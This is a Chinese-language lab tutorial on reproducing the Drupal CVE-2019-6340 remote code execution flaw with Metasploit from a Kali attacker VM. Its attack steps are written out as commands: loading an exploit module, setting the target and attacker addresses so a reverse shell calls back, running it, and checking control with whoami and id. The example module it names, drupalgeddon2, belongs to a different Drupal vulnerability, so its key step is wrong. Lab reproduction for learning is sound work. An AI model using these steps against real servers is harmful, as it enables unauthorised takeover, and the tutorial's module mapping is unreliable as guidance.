


# Drupal CVE-2019-6340 复现教程：P1：环境搭建与利用

在本节课中，我们将学习如何复现 Drupal 内容管理系统中的一个高危漏洞，编号为 CVE-2019-6340。我们将从环境准备开始，逐步演示如何利用该漏洞获取目标服务器的控制权。

## 概述

CVE-2019-6340 是 Drupal 核心中的一个远程代码执行漏洞。攻击者可以通过特制的请求在服务器上执行任意代码，从而完全控制受影响的网站。本节课将使用 Metasploit 框架（MSF）来复现此漏洞。

## 环境准备

上一节我们介绍了漏洞的基本信息，本节中我们来看看如何搭建复现环境。



首先，需要准备两台虚拟机：一台作为攻击机，另一台作为存在漏洞的 Drupal 服务器。攻击机我们使用 Kali Linux，并确保其安装了最新版的 Metasploit 框架。目标 Drupal 服务器的环境已预先搭建完毕。

## 利用步骤

以下是利用 Metasploit 框架进行攻击的具体步骤。

1.  **启动 Metasploit 控制台**
    在 Kali Linux 终端中，输入以下命令启动 MSF 控制台：
    ```bash
    msfconsole
    ```

2.  **搜索漏洞利用模块**
    在 MSF 控制台中，使用 `search` 命令查找与 Drupal 和 CVE-2019-6340 相关的模块。
    ```bash
    search drupal cve-2019-6340
    ```

3.  **选择并加载模块**
    从搜索结果中选择合适的攻击模块（exploit）。通常，我们会使用一个发布于2019年2月的模块。使用 `use` 命令加载该模块。
    ```bash
    use [模块路径]
    ```
    例如：`use exploit/unix/webapp/drupal_drupalgeddon2`。



4.  **配置模块参数**
    加载模块后，需要设置必要的参数。核心参数包括：
    *   **RHOSTS**：目标 Drupal 服务器的 IP 地址。
    *   **LHOST**：攻击者（Kali）机器的 IP 地址，用于接收反弹 shell。

    使用 `set` 命令进行配置：
    ```bash
    set RHOSTS 172.24.10.136
    set LHOST 172.24.10.180
    ```
    还需检查并设置目标端口（RPORT），默认为 80 端口，如果目标服务在其它端口（如 802）运行，则需相应修改。
    ```bash
    set RPORT 802
    ```

5.  **执行攻击**
    所有参数配置完成后，运行 `exploit` 或 `run` 命令发起攻击。
    ```bash
    exploit
    ```
    如果漏洞存在且配置正确，MSF 将尝试利用漏洞并在目标服务器上执行代码，最终为我们建立一个反向 shell 连接。

6.  **验证攻击结果**
    攻击成功后，Metasploit 会进入一个 meterpreter 或 shell 会话。我们可以执行系统命令来验证是否已获得控制权，例如：
    ```bash
    whoami
    id
    pwd
    ```
    这些命令将分别显示当前用户、用户ID和当前工作目录。

## 总结

本节课中我们一起学习了 CVE-2019-6340 漏洞的复现过程。我们首先准备了 Kali 攻击机和存在漏洞的 Drupal 目标环境，然后使用 Metasploit 框架搜索、加载并配置了相应的攻击模块，最终成功利用漏洞获得了目标服务器的 shell 权限。这个案例展示了保持软件更新和及时修补安全漏洞的重要性。